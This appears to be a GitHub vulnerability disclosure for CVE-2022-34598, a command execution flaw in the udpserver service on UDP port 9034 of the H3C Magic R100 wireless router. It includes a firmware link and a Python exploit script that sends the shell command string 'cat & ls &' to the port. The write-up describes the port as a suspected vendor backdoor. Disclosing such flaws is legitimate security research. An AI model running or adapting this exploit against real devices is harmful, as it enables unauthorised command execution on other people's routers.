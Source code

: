 # H3C magicr100 has a Command Execution Vulnerability
# CVE-2022-34598


## Firmware download

 https://download.h3c.com.cn/download.do?id=3342938



## Vulnerability description

H3C magic R100 is a wireless router. H3C magic R100 has a command execution vulnerability in udpserver

The updserver service has opened the 9034 port suspected to be the official back door

![img](img/{21B4E3ED-20CC-D158-872B-B26A8B2696FD}.jpg)

![img](img/{D86A4C31-8806-191F-6D79-75F682F72352}.jpg)

## EXP

```python
#/usr/bin/env python
#-*-coding:utf-8-*-

from socket import *

HOST = '0.0.0.0' 
PORT = 9034
BUFSIZ = 1024
ADDR = (HOST, PORT)

udpCliendSocket = socket(AF_INET, SOCK_DGRAM)
data = "cat & ls &"
udpCliendSocket.sendto(data, ADDR)
data, ADDR = udpCliendSocket.recvfrom(BUFSIZ)
udpCliendSocket.close()

```

